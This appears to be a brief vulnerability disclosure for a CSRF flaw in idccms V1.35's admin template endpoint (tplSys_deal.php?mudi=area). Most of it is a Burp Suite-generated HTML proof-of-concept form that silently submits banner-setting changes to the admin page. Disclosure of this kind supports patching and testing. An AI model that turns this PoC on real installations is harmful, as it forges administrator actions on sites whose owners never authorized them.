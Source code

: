 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/tplSys_deal.php?mudi=area

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/tplSys_deal.php?mudi=area" method="POST">
      <input type="hidden" name="area" value="imgBanner" />
			<input type="hidden" name="isImgBanner" value="0" />
			<input type="hidden" name="imgBannerH" value="360" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
